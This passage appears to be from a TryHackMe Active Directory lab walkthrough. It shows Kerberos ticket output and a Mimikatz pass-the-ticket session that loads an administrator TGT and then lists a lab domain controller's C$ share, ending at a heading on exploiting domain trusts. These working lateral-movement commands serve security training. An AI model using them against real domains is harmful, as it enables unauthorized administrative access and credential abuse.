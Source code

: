 ~~~bash
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
~~~

Now we can use Mimikatz to load the TGT and authenticate to THMDC:
~~~bash
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye!

C:\Tools>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,914,541,568 bytes free
~~~

# Exploiting Domain Trusts
